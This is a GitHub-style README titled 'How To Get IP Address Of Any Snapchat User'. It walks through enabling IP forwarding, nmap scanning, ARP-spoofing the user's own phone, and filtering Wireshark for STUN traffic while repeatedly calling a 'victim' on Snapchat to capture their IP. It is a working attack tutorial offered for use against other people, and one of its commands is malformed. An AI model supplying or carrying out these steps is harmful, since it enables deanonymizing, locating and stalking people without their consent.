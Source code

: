 # How-To-Get-IP-Address-Of-Any-Snapchat-User
How To Get IP Address Of Any Snapchat User



👨‍💻Easy MITM Attack

📜Required:
- Mac OS X / Kali Linux   ( Or Any UNIX )
- A Phone Where You Have Snapchat On ( Im Assuming Its A Phone )
- Nmap
- Some Tools And Little MITM Knowledge !

👨‍🏫Here Is The Tut:

🌀Download Wireshark Here
 (https://www.wireshark.org/)🌀Download Arpspoof Here (https://github.com/SuperMarcus/macos-arpspoof)  - MACOS only - Kali Linux Has This Already!

1. Fire Up Terminal And Ip Forward Your Laptop/pc With This Scripts:
Kali -   sudo sysctl net.ipv4.ip_forward = 1 
            sudo net.ipv4.ip_forward = 1
Mac -  sudo sysctl -w net.inet.ip.forwarding=1

2. Find Your Phone Device Local Ip And Write It Down.
      Nmap -sn <gateway ip>/24
Ex. nmap -sn (or -sP) 192.168.0.1/24

3. Spoof Your Phone.
         arpspoof -i <interface> -t <phone ip> gateway
Ex(mac):  arpspoof -i en0 -t 192.168.0.160 192.168.0.1

4. Fire up wireshark and filter On Your Phone Ip With Stun Protocol
   ip.addr == <phone ip> && stun
Ex: ip.addr == 192.168.0.160 && stun

5. Call Your Victim On Snap And Keep Calling Him For Around 5 Seconds.

🌀They Do Not Need Necessary To Answer
You Will See On Wireshark Some Binding Requests,  Then Some Other Stun Ones.

